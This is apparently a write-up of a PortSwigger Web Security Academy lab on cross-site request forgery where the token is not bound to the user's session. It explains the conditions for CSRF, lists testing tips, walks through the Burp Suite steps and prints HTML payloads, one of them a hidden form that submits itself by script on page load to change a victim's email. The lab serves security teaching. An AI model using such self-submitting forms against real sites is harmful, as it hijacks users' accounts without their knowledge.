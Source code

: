 # 🧠 Lab Title: CSRF Where Token Is Not Tied to User Session

## 🔍 Category

Broken Access Control

## 🎯 Objective

> Change the viewer's email address

## 🧰 Tools Used

* Burp Suite

## 🚀 Exploitation Steps

#### Observe the description

Before we begin, **what is CSRF?**
Cross-Site Request Forgery (CSRF) is a web security vulnerability that allows an attacker to force a user to perform actions they did not intend to perform.

For CSRF to be possible, three things must exist:

1. **Relevant action:** There is an action within the application that the attacker has a reason to induce. This could be a privileged action (e.g., modifying permissions for other users) or any action on user-specific data (e.g., changing the user's own password).

2. **Cookie-based session handling:** Performing the action involves issuing one or more HTTP requests, and the application relies solely on session cookies to identify the user. There is no other mechanism for tracking sessions or validating user requests.

3. **No unpredictable request parameters:** The requests performing the action do not contain parameters whose values the attacker cannot determine or guess. For example, a function is **not vulnerable** if the attacker needs to know the existing password to change it.

**Testing tips:**

* Remove the CSRF token and see if the application accepts the request.
* Change the request from GET to POST.
* Check if the CSRF token is valid.
* Check if the CSRF token is tied to the user session. A correctly implemented CSRF token must be linked to a specific user session.

For testing, we will use **two accounts**.

For more information, visit [PortSwigger CSRF Guide](https://portswigger.net/web-security/csrf).

#### Access the lab

> Click on `ACCESS THE LAB`

#### START HACKING!!!

1. Open Burp Suite and log in with the given credentials (Account A).

2. Intercept the request for "change email."

3. Log in to another account (Account B).

4. Obtain the CSRF token from the web developer tools.

5. Copy the CSRF token from Account A and use it in Account B. If you receive a **302 FOUND** status code, the CSRF is valid.

This confirms the vulnerability. Now, we can copy the elements from the “change email” form and put them in the exploit server:

```html
<form class="login-form" name="change-email-form" action="https://YOUR-LAB.web-security-academy.net/my-account/change-email" method="POST">
    <label>Email</label>
    <input required="" type="email" name="email" value="">
    <input required="" type="hidden" name="csrf" value="I1FWBmIo0TLWJLMJQhcBRFjRu45jUP4e">
    <button class="button" type="submit">Update email</button>
</form>
```

6. Change the email address in the exploit so it does not match your own.

7. Test it: store this HTML, add another email, and the email will be updated to the submitted value.

To fully solve the lab, update the CSRF value and the lab ID here:

```html
<form method="POST" action="https://0a2300f90330f7ec80ebcbb700830054.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="test@tests.com">
    <input required="" type="hidden" name="csrf" value="EIbXOGEODH4HKTbuW1HK5A2b3fQnymQn">
</form>
<script>
    document.forms[0].submit();
</script>
```

## 🧵 Reflection

> What is CSRF and how to test for them
